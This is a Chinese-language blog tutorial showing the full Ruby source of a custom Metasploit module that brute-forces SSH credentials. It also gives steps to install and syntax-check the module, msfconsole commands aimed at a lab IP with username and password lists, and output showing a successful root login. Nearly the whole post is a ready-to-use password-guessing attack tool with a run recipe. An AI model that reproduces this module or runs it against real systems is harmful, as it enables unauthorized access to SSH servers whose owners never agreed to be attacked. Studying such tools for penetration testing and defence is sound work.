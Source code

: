 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit自定义SSH认证暴力破解器
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit自定义SSH认证暴力破解器
lock: need
---
```


# Metasploit自定义SSH认证暴力破解器

这里，我们首先编写一个脚本ssh_brute_by_binghe.rb，具体如下：

```
##
# Author 冰河
# Date 2019-01-12
# Description 自定义SSH暴力破解模块，用于暴力破解SSH
##

require 'msf/core'
require 'metasploit/framework/credential_collection'
require 'metasploit/framework/login_scanner/ssh'

class Metasploit3 < Msf::Auxiliary
  include Msf::Auxiliary::Scanner
  include Msf::Auxiliary::Report
  #提供必要的暴力破解机制和功能，例如提供了单独的登录用户名和密码表，生词表、空密码等选项
  include Msf::Auxiliary::AuthBrute
  
  #初始化基础信息
  def initialize
    super(
      'Name'        => 'SSH Scanner',
      'Description' => %q{
        SSH Brute Tool
      },
      'Author'      => 'binghe',
      'License'     => MSF_LICENSE
    )
   register_options(
   [
      Opt::RPORT(22)
   ],self.class)
   end
   
   def run_host(ip)
     #cred_collection实现了按照数据存储选项来设置登录凭证
     cred_collection = Metasploit::Framework::CredentialCollection.new(
        blank_passwords: datastore['BLANK_PASSWORDS'],
        pass_file: datastore['PASS_FILE'],
        password: datastore['PASSWORD'],
        user_file: datastore['USER_FILE'],
        userpass_file: datastore['USERPASS_FILE'],
        username: datastore['USERNAME'],
        user_as_pass: datastore['USER_AS_PASS'],
     )
     
     scanner = Metasploit::Framework::LoginScanner::SSH.new(
        host: ip,
        port: datastore['PORT'],
        cred_details: cred_collection,
        proxies: datastore['Proxies'],
        stop_on_success: datastore['STOP_ON_SUCCESS'],
        bruteforce_speed: datastore['BRUTEFORCE_SPEED'],
        connection_timeout: datastore['SSH_TIMEOUT'],
        framework: framework,
        framework_module: self,
     )
     
     #使用.scan实现扫描的初始化，它将完成所有的登录尝试
     scanner.scan! do |result|
        #to_h 将数据转换成哈希格式
        credential_data = result.to_h
        #将名字和工作区id合并到credential_data变量中
        credential_data.merge!(
            module_fullname: self.fullname,
            workspace_id: myworkspace_id
        )
        
        #登录凭证正确，保存到数据库，并打印信息
        if result.success?
          credential_core = create_credential(credential_data)
          credential_data[:core] = credential_core
          create_credential_login(credential_data)
          
          print_good "#{ip} - LOGIN SUCCESSFUL: #{result.credential}"
          
        #登录凭证不正确，将credential_data传入到invalidate_login方法，并打印信息
        else
          invalidate_login(credential_data)
          print_status "#{ip} - LOGIN FAILED: #{result.credential} (#{result.status}: #{result.proof})"
        end
      end     
   end
end
```

接下来我们将ssh_brute_by_binghe.rb上传到Kali的/usr/share/metasploit-framework/modules/auxiliary/scanner/ssh目录下。

在运行这个脚本之前，我们先使用Metasploit中的msftidy工具检查一下此脚本的语法是否正确。

在Kali的命令行执行如下命令：

```
/usr/share/metasploit-framework/tools/dev/msftidy.rb /usr/share/metasploit-framework/modules/auxiliary/scanner/ssh/ssh_brute_by_binghe.rb 
```

未输出任何信息，证明脚本正确。

接下来，我们在msf终端运行ssh_brute_by_binghe.rb脚本

```
msfconsole
set RHOSTS 192.168.109.159
set USER_FILE /root/user
set PASS_FILE /root/pass
run
```

最终输出结果为：

```
[*] 192.168.109.159 - LOGIN FAILED: root:admin (Incorrect: )
[+] 192.168.109.159 - LOGIN SUCCESSFUL: root:admin123
[*] 192.168.109.159 - LOGIN FAILED: admin:123456 (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: admin:admin (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: admin:binghe (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:123456 (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:admin (Incorrect: )
[*] 192.168.109.159 - LOGIN FAILED: binghe:binghe (Incorrect: )
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
